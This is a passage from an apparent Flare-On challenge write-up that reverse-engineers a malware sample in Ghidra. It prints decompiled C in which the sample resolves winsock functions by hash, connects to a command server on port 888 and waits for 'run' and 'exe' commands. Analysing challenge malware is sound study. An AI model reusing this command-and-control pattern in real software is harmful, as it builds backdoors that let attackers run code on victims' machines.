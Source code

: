 Looking at the second if branch, we can see it contains some significantly more code, which means it is probably the main program of the malware. After resolving all the APIs and clicking through the functions that it calls, you will come across `FUN_180002070`. Ghidra's decompiler output for this function is a bit weird, perhaps due to the proc-by-hash stuff. Essentially it attempts to connect to the server `"inactive.flare-on.com"` via TCP on port `888` (`0x378`) using winsock, and then listens for three commands `"flare-on.com"`, `"run"` and `"exe"`:

```c
void FUN_180002070(MAIN_STRUCT *ctx)
{
    /* ... */
    
    pFun = get_proc_by_hash(NULL,4,0xfc7af16a); // socket
    sock = (*pFun)(AF_INET,1,IPPROTO_TCP);
    if (sock != -1) {
        /* ... */
        wvsprintfA_wrapper(local_68,"%s_%s",&ctx->subdomain_str,ctx->"flare-on.com");
        pFun = get_proc_by_hash(NULL,4,0xf44318c6); // gethostbyname
        lVar3 = (*pFun)();
        if (lVar3 != 0) {
            /* ... */
            pFun = get_proc_by_hash(NULL,4,0x8e9bf775); // htons
            local_7e = (*pFun)(0x378);                     
            pFun = get_proc_by_hash(NULL,4,0xedd8fe8a); // connect
            result = (*pFun)(sock,&local_80,0x10);
            if (result != -1) {
                /* ... */
                pFun = get_proc_by_hash(NULL,4,0xe797764); // send
                result = (*pFun)(sock,"@",uVar4,0);
                if (result != -1) {
                    buf = ctx->receive_buffer;
                    result = FUN_180002ce0(sock,buf,0x20);
                    if (result < 1) {
                        /* ... */
                    }
                    else {
                        /* ... */
                        if (buf == NULL) {
LAB_1800022f8:
                            /* ... */
                            if (buf == NULL) {
LAB_180002358:
                                /* ... */
                                if (buf != NULL) {
                                    // strcmp("flare-on.com", buf)
                                    pbVar6 = buf;
                                    do {
                                        bVar1 = *pbVar6;
                                        bVar2 = pbVar6["flare-on.com" - buf];
                                        if ((bVar1 < bVar2) || (bVar1 >= bVar2 && bVar1 != bVar2)) goto LAB_18000216e;
                                        pbVar6 = pbVar6 + 1;
                                    } while (pbVar6 - buf < 0xc);
                                    ctx->socket = sock;
                                }
                            }
                            else {
                                // strcmp("run", buf)
                                pbVar6 = buf;
                                do {
                                    bVar1 = *pbVar6;
                                    bVar2 = pbVar6[&"run" - buf];
                                    if ((bVar1 < bVar2) || (bVar1 >= bVar2 && bVar1 != bVar2)) goto LAB_180002358;
```